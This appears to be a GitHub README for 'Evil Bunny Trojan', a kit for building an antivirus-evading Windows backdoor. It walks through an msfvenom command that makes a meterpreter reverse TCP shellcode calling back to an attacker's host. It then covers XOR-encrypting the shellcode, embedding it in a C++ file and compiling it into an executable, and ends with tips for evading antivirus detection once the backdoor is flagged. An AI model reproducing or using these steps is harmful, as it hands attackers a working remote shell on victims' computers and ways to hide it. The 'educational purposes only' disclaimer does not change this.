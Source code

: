 
Evil Bunny Trojan
=================
Потрясающую производительность! 

🔒 Generate FUD backdoor with a Python Crypter 🔒
Follow the steps bellow to generate a crypted shellcode that can be used on a C++ executable.

Clone the repository
sudo git clone
cd fud-backdoor
Generate The ShellCode
msfvenom -p windows/x64/meterpreter_reverse_tcp -e x86/shikata_ga_nai -i 10 LHOST=(IP) LPORT=(PORT) -f raw -o raw.txt
Encode the ShellCode With the XOR Encryption
python xor_encryptor.py raw.txt > xor_shellcode.txt
Add the crypted shellcode on main.cpp
Now that you have the encrypted shellcode you need to add it on the main.cpp file just like this:

char b[] = /*xor_shellcode*/
Compile the main.cpp file
There is no specific way to do this, all you need to do is compile the C++ code into a windows executable. Here are ways to do that.
Execute the backdoor
Now you can execute the backdoor and enjoy the metepreter shell

What if it gets detected?
At some point, the anti viruses will be able to detect this backdoor. Here are some things you can do to make it undetectable again.

You can try to change the payload type protocol and make it http or https and make sure to use another port, add gibberish C++ code on the main.cpp file and you can also try playing with the SSL certificate of the session. Here is an article that covers 

If this still doesn't work, I can't think of another way to make the connection undetectable since this is a meterpreter shell and they get detected quite easily

DISCLAIMER
I am not responsible for any of your actions. This GitHub repository is made for educational purposes only!!
